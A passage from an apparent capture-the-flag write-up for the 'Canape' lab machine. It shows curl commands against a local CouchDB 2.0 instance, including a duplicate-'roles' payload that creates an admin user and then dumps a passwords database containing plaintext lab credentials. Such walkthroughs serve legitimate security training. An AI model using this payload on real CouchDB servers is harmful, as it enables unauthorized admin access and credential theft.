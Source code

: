 We have a shell as www-data but we'll need to escalate to homer to grab user.txt. Looking back at our source code from earlier we can see the Flask app connecting to a couchdb instance on localhost port 5984. We can use curl to verify connectivity and grab the version.

```
www-data@canape:/$ curl -X GET http://127.0.0.1:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

Let's do a general query to grab all the databases currently in couchdb.

```
www-data@canape:/var/www/html/simpsons$ curl -X GET http://127.0.0.1:5984/_all_dbs
<ml/simpsons$ curl -X GET http://127.0.0.1:5984/_all_dbs                     
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
```

If we try to access the password db's contents we get access denied.

```
www-data@canape:/$ curl -X GET http://127.0.0.1:5984/passwords/all_docs
{"error":"unauthorized","reason":"You are not authorized to access this db."}
```

Luckily the couchdb 2.0 version is vulnerable and allows us to create an admin user by bypassing input validation. You can read up on that [here](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

Our payload to do this looks like such.

```
www-data@canape:/$ curl -X PUT 'http://localhost:5984/_users/org.couchdb.user:absolomb' --data-binary '{"type":"user","name":"absolomb","roles": ["_admin"],"roles": [],"password": "supersecret"}'

{"ok":true,"id":"org.couchdb.user:absolomb","rev":"1-821ac8fdc3a5d8e4362682da1beae312"}
```

Now we can query the databases by prefacing our url with username:password format.

```
www-data@canape:/$ curl -X GET http://absolomb:supersecret@localhost:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

To query individual items in the db, we can simply append the id value on the end of the URL.

```
www-data@canape:/tmp$ curl -X GET http://absolomb:supersecret@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4                                
{"_id":"739c5ebdf3f7a001bebb8fc4380019e4","_rev":"2-81cf17b971d9229c54be92eeee723296","item":"ssh","password":"0B4jyA0xtytZi7esBNGp","user":""}
www-data@canape:/tmp$ curl -X GET http://absolomb:supersecret@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc43800368d                                
{"_id":"739c5ebdf3f7a001bebb8fc43800368d","_rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e","item":"couchdb","password":"r3lax0Nth3C0UCH","user":"couchy"}
www-data@canape:/tmp$ curl -X GET http://absolomb:supersecret@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438003e5f                                
{"_id":"739c5ebdf3f7a001bebb8fc438003e5f","_rev":"1-77cd0af093b96943ecb42c2e5358fe61","item":"simpsonsfanclub.com","password":"h02ddjdj2k2k2","user":"homer"}
www-data@canape:/tmp$ curl -X GET http://absolomb:supersecret@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc438004738                                
```